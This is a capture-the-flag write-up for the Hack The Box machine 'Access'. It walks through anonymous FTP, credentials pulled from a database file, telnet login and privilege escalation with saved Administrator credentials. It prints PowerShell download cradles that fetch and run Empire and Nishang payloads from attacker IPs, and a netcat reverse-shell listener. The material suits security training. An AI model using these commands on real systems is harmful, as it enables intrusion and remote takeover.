

# Hackthebox 


### Attack Summary

1. Anonymous FTP access
2. Credentials in Database
3. Saved admin credentials


## Recon

First, as always. we perform our initial enumeration of the box using Nmap.

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

So the first thing I try when I see an FTP server on HTB is to check for anonymous access. And behold we can log in anonymously on this one.

On the server we find two interesting files, backup.mdb & Access Control.zip.

The file "Access Control.zip" needs a password to unzip.

The other file is a database-file. We can use the tools "mdb-tools" on linux to extract data from the file. I used the following command to look for interesting tables in the database.

```
root@kali:~/htb/access# mdb-tables -1 backup.mdb | grep -E "(user|password)"
auth_user
auth_user_groups
auth_user_user_permissions
userinfo_attarea
```

We found a couple of promising tables. Lets see what "auth_user" contains.

```
root@kali:~/htb/access# mdb-export backup.mdb auth_user > users.csv
root@kali:~/htb/access# cat users.csv 
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
```

The table contains credentials for a couple of users. We can use the "access4u@security" password to open the "Access Control.zip" file which contains a personal folder file from Microsoft Exchange.

To read the file I imported it to Thunderbird and read the contents.




## Initial Compromise

Using the credentials from the e-mail we can log in to the system over the exposed telnet service.


## Establish Foothold

The first thing I usually do when I have an initial foothold on a system is to upgrade our shell. This is because some tasks and exploits during our privesc phase may require a full TTY to work. Trust me, I have learned this the hard way.

So here I used a Powershell download cradle to inject an Empire agent into memory and using that to mount or further privilege escalation recon.

```
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.32:8000/empire.ps1')"
```


## Host situational awareness

From Empire we can launch different enumeration scripts such as PowerUp, Sherlock and JAWS etc.

The enumeration yielded a couple of potential privesc routes. The one that stuck out the most was the following in JAWS:

```
(Empire: GUSNRPXF) > scriptimport /root/tools/privesc/JAWS/jaws-enum.ps1
script successfully saved in memory
(Empire: GUSNRPXF) > scriptcmd jaws-enum.ps1                                                           


...


-----------------------------------------------------------
 Stored Credentials
-----------------------------------------------------------

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator 
    Type: Domain Password
    User: ACCESS\Administrator
```

## Privilege Escalation

Using the stored credentials we can spawn another reverse-shell. I used Nishang to accomplish this:

```
runas /user:ACCESS\Administrator /savecred "powershell -c IEX(New-Object Net.WebClient).downloadString('http://10.10.14.29:8000/shell2.ps1')"
```

We can then just catch the shell with a simple netcat listener.

```
root@kali:~/htb/access# nc -lvp 4445
listening on [any] 4445 ...
connect to [10.10.14.12] from access.htb [10.10.10.98] 49174
Windows PowerShell running as user Administrator on ACCESS
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
access\administrator
```

We could just as easy spawn another high integrity Empire agent with the same runas command.

```
runas /user:ACCESS\Administrator /savecred "powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.29:8000/empire.ps1')"
```


